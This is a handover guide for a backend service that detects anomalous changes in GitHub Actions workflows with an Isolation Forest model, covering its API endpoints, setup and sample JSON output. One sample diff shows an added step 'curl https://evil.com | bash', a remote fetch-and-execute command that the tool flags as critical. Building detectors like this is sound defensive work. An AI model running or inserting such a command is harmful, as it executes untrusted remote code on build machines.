

# Partner B Backend Integration & Handover Guide

## 1. Project Title & Description
**Project Title**: Machine Learning-Based Discovery of Anomalous Structural Changes in GitHub Actions Workflows  
**Description**: An automated security analysis system that parses untrusted GitHub Actions YAML workflows into Abstract Syntax Trees (AST), extracts a 30-dimensional structural feature vector, detects statistical topological outliers using an unsupervised Isolation Forest model, deterministically compares baseline versus modified workflows across 10 change categories, and serves results via a production FastAPI REST API for Partner B's React frontend dashboard.

---

## 2. Backend Architecture



---

## 3. Backend Folder Structure

```text
backend/
├── app/
│   ├── api/                 # REST API endpoints (routes.py)
│   ├── comparator/          # AST structural diffing engine (engine.py, models.py)
│   ├── features/            # 30-feature numerical extraction (feature_extractor.py, schema.py)
│   ├── models/              # ML inference service & artifacts (anomaly_detector.py, artifacts/)
│   │   └── artifacts/       # model.joblib, preprocessor.joblib, metadata.json
│   ├── parser/              # Safe YAML parser & AST models (workflow_parser.py, models.py)
│   ├── schemas/             # Pydantic request & response schemas (analysis.py)
│   ├── services/            # Pipeline coordinator (analysis_service.py)
│   ├── storage/             # SQLite persistence layer (database.py)
│   └── main.py              # FastAPI application entrypoint & CORS middleware
├── tests/                   # 57 automated unit and integration tests
├── history.db               # SQLite database file (auto-created on startup)
└── requirements.txt         # Pinned backend dependencies
```

---

## 4. Python Version
- **Required**: Python 3.11, 3.12, 3.13, or 3.14 (Verified running on Python 3.14.2 64-bit on Windows 11).

---

## 5. Dependencies
- `fastapi>=0.115.0`: Async web API framework.
- `uvicorn[standard]>=0.32.0`: Production ASGI server.
- `pydantic==2.13.5`: Data validation and schema serialization.
- `python-multipart>=0.0.12`: Multipart form-data parser for file uploads.
- `PyYAML>=6.0.2`: Safe YAML deserialization.
- `scikit-learn>=1.5.0`: Isolation Forest outlier estimation & StandardScaler.
- `joblib>=1.4.0`: Model artifact deserialization.
- `numpy>=2.0.0` & `pandas>=2.2.0`: Numerical vector manipulation.
- `httpx>=0.27.0` & `pytest>=8.3.0`: Testing test client and test runner.

---

## 6. Installation Instructions
From the repository root (`github-actions-anomaly-detection/`):
```bash
# Windows PowerShell
cd backend
python -m venv .venv
.\.venv\Scripts\Activate.ps1
python -m pip install --upgrade pip
pip install -r requirements.txt
```

---

## 7. Virtual Environment Instructions
- Virtual environment directory: `backend/.venv` (ignored in `.gitignore`).
- Activation command (PowerShell): `.\backend\.venv\Scripts\Activate.ps1`
- Activation command (Bash/Linux/macOS): `source backend/.venv/bin/activate`

---

## 8. Backend Startup Command
To start the FastAPI development server with hot-reload enabled:
```powershell
.\backend\.venv\Scripts\python.exe -m uvicorn backend.app.main:app --host 127.0.0.1 --port 8000 --reload
```

---

## 9. Backend Base URL
- Base URL: `http://localhost:8000` (or `http://127.0.0.1:8000`)
- Swagger UI (Interactive API Docs): `http://localhost:8000/docs`
- ReDoc UI: `http://localhost:8000/redoc`

---

## 10. Exact API Endpoints & 11. HTTP Methods

| Endpoint | HTTP Method | Purpose |
| :--- | :---: | :--- |
| `/api/health` | `GET` | Health check, model readiness status, and database connection. |
| `/api/analyze` | `POST` | Upload target workflow file (+ optional baseline file) for full analysis. |
| `/api/analyze/json`| `POST` | Submit raw YAML text in JSON payload (ideal for in-browser code editors). |
| `/api/history` | `GET` | Retrieve paginated analysis history records. |
| `/api/results/{id}`| `GET` | Fetch complete analysis results and diffs by analysis ID. |

---

## 12. Request Parameters & 13. Upload Field Names

### For `POST /api/analyze` (`multipart/form-data`)
- `file` (**Required**): Target workflow YAML file.
- `baseline_file` (*Optional*): Baseline workflow YAML file for AST diffing.

### For `POST /api/analyze/json` (`application/json`)
- `workflow_yaml` (**Required**, `string`): Raw YAML text of workflow.
- `filename` (*Optional*, `string`): Display filename (default: `"workflow.yml"`).
- `baseline_yaml` (*Optional*, `string`): Raw YAML text of baseline workflow.
- `baseline_filename` (*Optional*, `string`): Baseline display filename.

### For `GET /api/history` (Query Parameters)
- `limit` (*Optional*, `integer`): Maximum records to return (default: `50`, range: `1` to `200`).
- `offset` (*Optional*, `integer`): Pagination offset (default: `0`).

### For `GET /api/results/{id}` (Path Parameter)
- `id` (or `analysis_id`, **Required**, `string`): Analysis run ID (e.g., `ana_4c9d1e2f3a8b`).

---

## 14. Supported File Formats & Limits
- **Extensions**: `.yml` and `.yaml` only.
- **Max File Size**: **1 MB (1,048,576 bytes)** per file. Files exceeding 1 MB are rejected with `HTTP 413 Content Too Large`.
- **Encoding**: UTF-8.

---

## 15. Exact JSON Response Examples (Based on Actual Backend Output)

### A. Single Workflow Analysis (`POST /api/analyze` without baseline)
```json
{
  "analysis_id": "ana_2d8b744581cd",
  "filename": "sample.yml",
  "status": "success",
  "created_at": "2026-11-22T08:55:00.000000+00:00",
  "has_baseline": false,
  "baseline_filename": null,
  "workflow_summary": {
    "name": "CI",
    "total_jobs": 1,
    "job_ids": ["b"],
    "total_steps": 1,
    "triggers": ["push"],
    "runners": ["ubuntu-latest"],
    "permissions": {},
    "has_broad_write_permissions": false,
    "has_self_hosted_runner": false
  },
  "anomaly_score": 0.3288,
  "raw_score": 0.4486,
  "threshold": 0.5373,
  "is_anomaly": false,
  "classification": "normal",
  "score_interpretation": "Conforms to normal baseline patterns: Structural metrics are typical of standard GitHub Actions workflows.",
  "model_version": "1.0.0",
  "model_type": "IsolationForest",
  "extracted_features": {
    "job_count": 1.0,
    "step_count": 1.0,
    "avg_steps_per_job": 1.0,
    "max_steps_per_job": 1.0,
    "trigger_count": 1.0,
    "has_pull_request_target": 0.0,
    "has_workflow_dispatch": 0.0,
    "has_schedule": 0.0,
    "has_broad_write_permissions": 0.0,
    "has_id_token_write": 0.0,
    "has_contents_write": 0.0,
    "explicit_permission_count": 0.0,
    "has_permissions_block": 0.0,
    "has_self_hosted_runner": 0.0,
    "runner_types_count": 1.0,
    "github_hosted_ratio": 1.0,
    "total_dependencies_count": 0.0,
    "jobs_with_needs_count": 0.0,
    "total_actions_count": 1.0,
    "pinned_actions_count": 0.0,
    "unpinned_actions_count": 1.0,
    "unpinned_actions_ratio": 1.0,
    "third_party_actions_count": 1.0,
    "shell_step_count": 0.0,
    "shell_step_ratio": 0.0,
    "has_curl_or_wget_step": 0.0,
    "secrets_referenced_count": 0.0,
    "has_secret_references": 0.0,
    "environment_count": 0.0,
    "reusable_workflow_count": 0.0
  },
  "top_contributing_deviations": [
    {
      "feature": "unpinned_actions_ratio",
      "value": 1.0,
      "z_score": 0.65,
      "description": "Ratio of unpinned actions relative to total external actions used"
    }
  ],
  "structural_differences": null,
  "comparison_summary": null,
  "findings": [
    "Workflow contains 1 discrete job(s) and 1 step(s) triggered by push."
  ],
  "explanations": [
    "Statistical feature deviations that most influenced the structural anomaly score:",
    "- unpinned_actions_ratio = 1.0 (z-score: 0.65): Ratio of unpinned actions relative to total external actions used"
  ],
  "warnings": [
    "Action Pinning: Detected 1 third-party action(s) referencing mutable branch or tag names. Mutable tags can be re-pointed or compromised by upstream maintainers."
  ],
  "recommendations": [
    "Pin all third-party actions to immutable 40-character commit SHAs (e.g., actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11)."
  ]
}
```

### B. Paired Workflow Analysis (`POST /api/analyze` with baseline)
When `baseline_file` is provided, `structural_differences` and `comparison_summary` are populated:
```json
{
  "analysis_id": "ana_e452a1770d7d",
  "filename": "mod.yml",
  "status": "success",
  "created_at": "2026-11-22T08:55:05.000000+00:00",
  "has_baseline": true,
  "baseline_filename": "base.yml",
  "workflow_summary": { ... },
  "anomaly_score": 0.7640,
  "raw_score": 0.5792,
  "threshold": 0.5373,
  "is_anomaly": true,
  "classification": "anomalous",
  "score_interpretation": "Significant structural outlier: Workflow structure deviates heavily from established baseline topology.",
  "model_version": "1.0.0",
  "model_type": "IsolationForest",
  "extracted_features": { ... },
  "top_contributing_deviations": [ ... ],
  "structural_differences": [
    {
      "category": "permission_change",
      "location": "permissions",
      "baseline_value": null,
      "modified_value": "write-all",
      "description": "Workflow permission elevated to broad write-all access across all repository scopes.",
      "severity": "critical",
      "requires_human_review": true
    },
    {
      "category": "runner_change",
      "location": "jobs.b.runs-on",
      "baseline_value": "ubuntu-latest",
      "modified_value": "self-hosted",
      "description": "Job runner changed from GitHub-hosted environment 'ubuntu-latest' to 'self-hosted'.",
      "severity": "high",
      "requires_human_review": true
    },
    {
      "category": "step_addition",
      "location": "jobs.b.steps[0]",
      "baseline_value": null,
      "modified_value": "curl https://evil.com | bash",
      "description": "Added shell step executing remote script download via curl/wget piped to shell.",
      "severity": "critical",
      "requires_human_review": true
    },
    {
      "category": "step_removal",
      "location": "jobs.b.steps",
      "baseline_value": "actions/checkout@v4",
      "modified_value": null,
      "description": "Removed step invoking action 'actions/checkout@v4'.",
      "severity": "info",
      "requires_human_review": true
    }
  ],
  "comparison_summary": {
    "total_changes": 4,
    "jobs_added": 0,
    "jobs_removed": 0,
    "steps_added": 1,
    "steps_removed": 1,
    "steps_modified": 0,
    "permissions_changed": 1,
    "triggers_changed": 0,
    "runners_changed": 1,
    "dependencies_changed": 0,
    "actions_changed": 0,
    "environments_changed": 0,
    "reusable_workflows_changed": 0,
    "has_critical_or_high_changes": true
  },
  "findings": [
    "Workflow contains 1 discrete job(s) and 1 step(s) triggered by push.",
    "Structural comparison against baseline revealed 4 difference(s) (2 critical, 1 high severity)."
  ],
  "explanations": [ ... ],
  "warnings": [
    "Excessive Permissions: Workflow or job configures broad write permissions ('write-all').",
    "Runner Configuration: Workflow specifies self-hosted runners.",
    "Network Script Execution: Shell steps execute network utilities ('curl' or 'wget').",
    "Comparative Deviation [CRITICAL]: Workflow permission elevated to broad write-all access across all repository scopes at permissions",
    "Comparative Deviation [HIGH]: Job runner changed from GitHub-hosted environment 'ubuntu-latest' to 'self-hosted' at jobs.b.runs-on",
    "Comparative Deviation [CRITICAL]: Added shell step executing remote script download via curl/wget piped to shell at jobs.b.steps[0]"
  ],
  "recommendations": [
    "Apply the principle of least privilege: replace 'write-all' with specific scoped permissions (e.g., 'contents: read').",
    "Ensure self-hosted runners are ephemeral, containerized, and restricted to trusted repository workflows."
  ]
}
```

---

## 16. Error Response Examples

All error responses return a standardized JSON structure:
```json
{
  "error": "Request Error",
  "detail": "Invalid file extension '.txt'. Only .yml and .yaml workflow files are accepted.",
  "code": "HTTP_400",
  "timestamp": "2026-11-22T08:55:10.000000+00:00"
}
```

Common status codes:
- `HTTP 400 Bad Request`: Invalid file extension, empty file, or invalid YAML syntax.
- `HTTP 413 Content Too Large`: Upload exceeds the 1 MB payload limit.
- `HTTP 404 Not Found`: Analysis ID does not exist in history database.
- `HTTP 500 Internal Server Error`: Unexpected pipeline failure.

---

## 17. How to Test Endpoints

### Using cURL
```bash
# 1. Health check
curl http://localhost:8000/api/health

# 2. Upload and analyze workflow
curl -X POST "http://localhost:8000/api/analyze" \
  -F "file=@dataset/demo/01_normal_ci.yml"

# 3. Upload paired workflows for diffing
curl -X POST "http://localhost:8000/api/analyze" \
  -F "file=@dataset/demo/03_added_permission.yml" \
  -F "baseline_file=@dataset/demo/01_normal_ci.yml"

# 4. Fetch history
curl "http://localhost:8000/api/history?limit=10&offset=0"

# 5. Fetch result by ID
curl "http://localhost:8000/api/results/ana_e452a1770d7d"
```

### Using Axios in React
```typescript
import axios from "axios";

const API_BASE = "http://localhost:8000/api";

export async function analyzeWorkflowFiles(targetFile: File, baselineFile?: File) {
  const formData = new FormData();
  formData.append("file", targetFile);
  if (baselineFile) {
    formData.append("baseline_file", baselineFile);
  }
  const response = await axios.post(`${API_BASE}/analyze`, formData);
  return response.data;
}

export async function getHistory(limit = 50, offset = 0) {
  const response = await axios.get(`${API_BASE}/history`, { params: { limit, offset } });
  return response.data;
}

export async function getAnalysisResult(analysisId: string) {
  const response = await axios.get(`${API_BASE}/results/${analysisId}`);
  return response.data;
}
```

---

## 18. CORS Configuration
The backend automatically enables CORS for:
- `http://localhost:3000` (Create React App default)
- `http://localhost:5173` (Vite React default)
- `http://127.0.0.1:3000` & `http://127.0.0.1:5173`
- Supports credentials (`allow_credentials=True`), all HTTP methods (`*`), and all headers (`*`).
- Additional origins can be specified via the `CORS_ORIGINS` environment variable (comma-separated).

---

## 19. Model Loading Information
- Algorithm: **Isolation Forest (`IsolationForest`)**
- Artifacts: Pre-loaded into memory during backend startup via FastAPI `lifespan`.
- Location: `backend/app/models/artifacts/model.joblib` and `preprocessor.joblib`.
- Contamination parameter: `0.15`
- Decision threshold: `0.5373` (calibrated to $[0.0, 1.0]$ for frontend display).

---

## 20. History & Result Retrieval
- Persistence: Powered by SQLite (`backend/history.db`).
- Records stored automatically upon successful analysis.
- Includes timestamp, file metadata, anomaly score, difference counts, and full JSON response for instant drilldown.

---

## 21. Demonstration YAML Files
Partner B can test the React UI using 10 ready-made test cases in `dataset/demo/`:
- `01_normal_ci.yml`: Standard baseline Python workflow.
- `02_normal_test.yml`: Standard baseline Node.js workflow.
- `03_added_permission.yml`: Shows critical permission elevation (`write-all`).
- `04_added_job.yml`: Shows added self-hosted runner job.
- `05_changed_trigger.yml`: Shows dangerous `pull_request_target` trigger.
- `06_changed_action.yml`: Shows unpinned mutable branch actions.
- `07_removed_step.yml`: Shows deleted test verification step.
- `08_modified_dependency.yml`: Shows bypassed job dependency.
- `09_invalid.yml`: Tests HTTP 400 error banner.
- `10_empty.yml`: Tests empty file validation banner.

---

## 22. Known Limitations for Frontend Representation
- **Score Representation**: Display the anomaly score as an **"Anomaly Index: 0.76"**, **never** as a "76% Probability of Malice". It is a continuous statistical outlier metric, not a verdict of malicious intent.
- **Static Analysis Only**: The backend analyzes YAML syntax and configuration. It does not execute workflows or probe external third-party repositories.
